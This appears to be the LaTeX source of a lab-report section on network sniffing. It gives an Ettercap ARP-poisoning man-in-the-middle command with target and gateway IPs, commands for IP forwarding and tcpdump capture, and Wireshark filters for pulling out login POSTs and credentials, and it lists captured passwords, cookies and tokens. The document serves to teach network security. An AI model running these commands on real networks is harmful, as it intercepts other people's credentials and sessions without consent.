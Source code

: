 \documentclass[12pt]{article}
\begin{document}
\section*{Part B: Attack Simulations}

\subsection*{Task 4: Network Sniffing}
\textbf{Tools Used:} 
\begin{itemize}
  \item Ettercap - A comprehensive suite for man-in-the-middle attacks
  \item Wireshark - Network protocol analyzer for packet inspection
\end{itemize}

\textbf{Command Breakdown:}
\begin{lstlisting}[language=bash]
# ARP poisoning attack using Ettercap
# -T: Text only mode
# -q: Quiet mode
# -M: Man-in-the-middle attack
# arp:remote: Use ARP poisoning targeting remote hosts
# /192.168.1.5/: Target host IP
# /192.168.1.1/: Gateway IP
ettercap -T -q -M arp:remote /192.168.1.5/ /192.168.1.1/

# Additional commands used
# Enable IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# Monitor traffic with tcpdump
tcpdump -i eth0 -w capture.pcap
\end{lstlisting}

\textbf{Wireshark Analysis:}
\begin{lstlisting}
# Filter for POST requests
http.request.method == "POST"

# Filter for authentication traffic
http.request.method == "POST" && http.request.uri contains "login"

# Filter for specific domains
http.host contains "target.com"

# Filter for credentials in URL
http matches "username|password"
\end{lstlisting}

\textbf{Captured Data Analysis:}
\begin{itemize}
  \item \textbf{HTTP POST Data:}
    \begin{itemize}
      \item User credentials in plain text
      \item Session cookies
      \item Form submissions
      \item Authentication tokens
    \end{itemize}
  \item \textbf{Protocol Information:}
    \begin{itemize}
      \item Unencrypted HTTP traffic
      \item Basic authentication headers
      \item Cookie values
      \item URL parameters
    \end{itemize}
\end{itemize}
\end{document}
